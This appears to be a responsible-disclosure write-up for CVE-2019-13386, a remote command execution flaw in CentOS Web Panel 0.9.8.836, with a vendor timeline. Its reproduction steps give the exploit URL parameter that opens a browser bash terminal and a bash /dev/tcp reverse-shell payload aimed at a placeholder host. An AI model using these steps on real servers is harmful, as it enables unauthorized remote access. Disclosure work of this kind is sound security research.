

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) 0.9.8.836 - Remote Command Execution
# Date                : 6 July 2019
# Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.836
# Tested on           : CentOS 7.6.1810 (Core)
# CVE                 : CVE-2019-13386
```

# Description

From the application interface, it does not allow user to run OS commands directly. If user want to run OS commands, they need to do it through crontab function. The vulnerability allows users to executed OS commands directly through web browser.

#  Steps to Reproduce

1. Login into the CentOS Web Panel using user credential

<kbd></kbd>

<br>

2. Add "?action=9" on url , bash terminal will show then users can run OS commands through web browser
``` 
Example: https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/username/fileManager2.php?action=9
```
<kbd></kbd>

<br>

3. Create reverse shell through OS commands 
``` 
Reverse shell payload "bash -i >& /dev/tcp/[local IP Address]/[port] 0>&1"
``` 
<kbd></kbd>


#  Timeline

```
2019-07-05: Discovered the bug
2019-07-05: Reported to vendor
2019-07-05: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-23: Published
```
